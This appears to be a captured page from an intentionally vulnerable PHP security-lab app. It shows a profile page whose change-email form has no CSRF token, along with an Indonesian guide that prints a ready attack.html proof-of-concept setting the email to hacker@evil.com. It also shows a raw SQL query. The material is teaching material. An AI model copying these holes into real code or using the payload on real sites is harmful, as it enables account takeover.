
The app's page /profile.php (signed in) with its own data.
### tables this page shows
CREATE TABLE IF NOT EXISTS `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  `email` varchar(100) DEFAULT NULL,
  `role` enum('admin','user') DEFAULT 'user',
  PRIMARY KEY (`id`)
);

### profile.php (the view, shortened to what this page needs)
<?php
include 'db.php';
$id = $_SESSION['user_id'];
$user_query = mysqli_query($conn, "SELECT * FROM users WHERE id=$id");
$user = mysqli_fetch_assoc($user_query);
include 'includes/header.php';
?>
<div class="card">
    <h1>Profil Pengguna</h1>
    <p>Halo, <strong><?= htmlspecialchars($user['username']) ?></strong>!</p>
    <p>Email saat ini: <code><?= htmlspecialchars($user['email']) ?></code></p>
    <p>Role: <span class="badge"><?= htmlspecialchars($user['role']) ?></span></p>
    <hr style="margin: 2rem 0; border: 0; border-top: 1px solid var(--border);">
    <h3>Ganti Email</h3>
    <div class="alert alert-info">
        <strong>📚 Panduan Percobaan:</strong>
        <p>Form ini tidak memiliki CSRF Token. Artinya, website lain bisa mengirim request 'Ganti Email' atas nama Anda.</p>
        <p style="margin-top:0.5rem"><strong>Cara Membuktikan:</strong></p>
        <code style="display:block; background:#fff; padding:10px; margin:5px 0; font-size: 0.85em; border:1px solid #ddd;">
            &lt;!-- Simpan sebagai attack.html --&gt;<br>
            &lt;form action="http://localhost/security-labs/profile.php" method="POST"&gt;<br>
            &nbsp;&nbsp;&lt;input type="hidden" name="email" value="hacker@evil.com"&gt;<br>
            &nbsp;&nbsp;&lt;input type="submit" value="Klik Saya"&gt;<br>
            &lt;/form&gt;
        </code>
        <p>Simpan kode di atas sebagai file HTML baru di komputer Anda, lalu buka dan klik tombolnya saat Anda sedang login di sini.</p>
    </div>
    <form method="POST" action="profile.php">
        <label>Email Baru:</label>
        <input type="email" name="email" required placeholder="email@baru.com">
        <button type="submit" class="btn">Simpan Perubahan</button>
    </form>
</div>
<?php include 'includes/footer.php'; ?>

### assets/css/style.css (style rules this page uses)
:root { --primary: #4f46e5; --primary-hover: #4338ca; --secondary: #64748b; --background: #f8fafc; --surface: #ffffff; --text: #0f172a; --text-muted: #64748b; --border: #e2e8f0; --success: #10b981; --danger: #ef4444; --warning: #f59e0b; --radius: 8px; --sidebar-width: 260px; --sidebar-bg: #1e293b; --sidebar-text: #f1f5f9; }
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: 'Inter', system-ui, sans-serif; background-color: var(--background); color: var(--text); line-height: 1.6; display: flex; min-height: 100vh; }
.card { background: var(--surface); border-radius: var(--radius); padding: 1.5rem; box-shadow: 0 1px 3px rgba(0,0,0,0.1); margin-bottom: 1.5rem; border: 1px solid var(--border); }
.btn { display: inline-block; padding: 0.75rem 1.5rem; background-color: var(--primary); color: white; text-decoration: none; border-radius: var(--radius); font-weight: 500; border: none; cursor: pointer; transition: background 0.2s; }
input, textarea, select { width: 100%; padding: 0.75rem; margin-bottom: 1rem; border: 1px solid var(--border); border-radius: var(--radius); background: var(--background); color: var(--text); }
h1, h2, h3, h4 { margin-bottom: 1rem; color: var(--text); }
.alert { padding: 1rem; border-radius: var(--radius); margin-bottom: 1rem; border-left: 4px solid; }
.alert-info { background: #eff6ff; border-color: var(--primary); color: #1e40af; }
code { font-family: monospace; background: rgba(0,0,0,0.05); padding: 0.2rem 0.4rem; border-radius: 4px; color: var(--primary); }

### records on screen
users: username "admin", email "admin@securitylabs.local", role "admin"

### other values on screen
substr($_SESSION['username'] ?? 'G', 0, 1) "A"
$_SESSION['username'] "admin"
$_SESSION['role'] "admin"
